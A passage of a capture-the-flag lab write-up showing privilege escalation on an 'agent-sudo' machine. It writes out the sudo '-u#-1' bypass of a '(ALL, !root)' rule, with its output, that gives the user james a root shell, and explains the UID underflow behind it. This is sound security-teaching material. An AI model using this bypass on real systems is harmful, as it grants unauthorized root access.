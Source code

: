 Q10. What is the incident of the photo called?: Roswell alien autopsy

It’s time for privilege escalation to get root privileges

and the question is asking for a CVE number

I first checked the kernel version to look for any known vulnerabilities but nothing


## 6. Privilege Escalation

```bash
james@agent-sudo:~$ uname -a
Linux agent-sudo 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

I moved forward with checking sudo privileges for james

```bash
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Interesting, it says james is allowed to run /bin/bash as any user but not root

but if you look closely, the restriction is not implemented properly. The problem lies in how sudo handles user ID targeting, specifically with numeric UIDs.

If james does sudo /bin/bash, it will prevent escalation to UID 0 since !root is specified but what if we use a numeric ID instead of the root word

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# 
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```
---
###

*-u#UID: run the command as the user with the specified numeric UID.*

*sudo -u#-1 becomes sudo -user=4294967295*

*The system can’t find a user with UID 4294967295.*

*However, due to integer overflow/underflow behavior and improper handling in some versions of sudo, it ends up running the command with root privileges.*

---

### 6.1 Root flag
